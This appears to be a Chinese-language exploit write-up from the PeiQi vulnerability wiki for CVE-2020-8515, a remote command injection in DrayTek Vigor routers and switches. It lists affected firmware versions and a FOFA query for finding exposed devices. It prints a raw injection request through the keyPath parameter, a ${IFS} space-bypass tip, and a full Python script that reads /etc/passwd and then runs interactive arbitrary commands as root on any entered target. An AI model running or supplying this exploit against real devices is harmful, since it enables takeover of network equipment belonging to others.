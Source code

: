 ```yaml
---
title: DrayTek企业网络设备 远程命令执行 CVE-2020-8515
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - DrayTek
---
```


# DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

> [!NOTE]
>
> Vigor2960 < v1.5.1
>
> Vigor300B < v1.5.1
>
> Vigor3900 < v1.5.1
>
> VigorSwitch20P2121 <= v2.3.2
>
> VigorSwitch20G1280 <= v2.3.2
>
> VigorSwitch20P1280 <= v2.3.2
>
> VigorSwitch20G2280 <= v2.3.2
>
> VigorSwitch20P2280 <= v2.3.2

## FOFA

> [!NOTE]
>
> title="Vigor 2960"

## 漏洞复现

登录页面抓包

![](/img/20210924013544410327.png)

请求包如下

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](/img/20210924013544615102.png)

其中出现注入点的参数为 **keyPath**

> [!NOTE]
>
> 出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd
>
> 可以使用 & 执行额外一条命令 (URL编码为 %26)

![](/img/20210924013544919031.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> pwd                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cmd)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, Cmd):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    Cmd = Cmd.replace(' ','${IFS}')
    data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](/img/20210924013545324110.png)

## Goby & POC

> [!NOTE]
>
> Goby中已经包含此漏洞

![](/img/20210924013546678124.png)